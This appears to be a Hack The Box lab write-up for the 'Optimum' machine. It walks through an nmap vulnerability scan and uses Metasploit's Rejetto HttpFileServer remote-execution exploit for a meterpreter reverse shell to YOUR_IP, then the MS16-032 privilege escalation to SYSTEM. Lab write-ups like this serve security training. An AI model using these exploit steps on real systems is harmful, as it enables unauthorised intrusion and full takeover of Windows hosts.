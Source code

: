 +++ 
title = "Optimum HTB Write up"
description = "Write up for the HTB machine 'Optimum'"
author = "greatmoves"
tags=["httpfileserver 2.3", "msfconsole", "hackthebox", "easy", "privilege escalation"]
date = 2023-05-11
+++

# 1. Inital recon

## 1.1. nmap
`nmap --script vuln 10.10.10.8`

```
PORT   STATE SERVICE
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-fileupload-exploiter: 
|   
|_    Couldn't find a file-type field.
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  BID:49303  CVE:CVE-2011-3192
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://www.tenable.com/plugins/nessus/55976
|       https://www.securityfocus.com/bid/49303
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|_      https://seclists.org/fulldisclosure/2011/Aug/175
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
```

## 1.2. website recon
even though nmap reveals some vulnerabilities, we're looking for remote code execution vulnerabilities, so let's visit the web application in the browser

we can see that it is running `HttpFileServer 2.3`

# 2. msfconsole
let's start by running `search HttpFileServer 2.3` in msfconsole

```
Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```
let's use this exploit by running `use 0`

we need to set the options for the exploit
```
set rhost 10.10.10.8
set lhost YOUR_IP
```
and then `exploit` for our meterpreter shell

then we can find the user flag at `C:\Users\kostas\Desktop`

# 3. root.txt

let's try and find a vector to escalate our privileges. within our meterpreter shell run the command `run post/multi/recon/local_exploit_suggester`

and we can see `exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.` has potential

so let's use this exploit. put the current session in the background using `ctrl+z`, then run `use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

set the options
```
set lhost YOUR_IP
set session SESSION_NUMBER
```
You can check the session number using `sessions`

finally, `exploit` to run the exploit. once we have a meterpreter shell we can run `shell` and then `whoami` to confirm that we are `nt authority\system`

the root flag can be found at `C:\Users\Administrator\Desktop`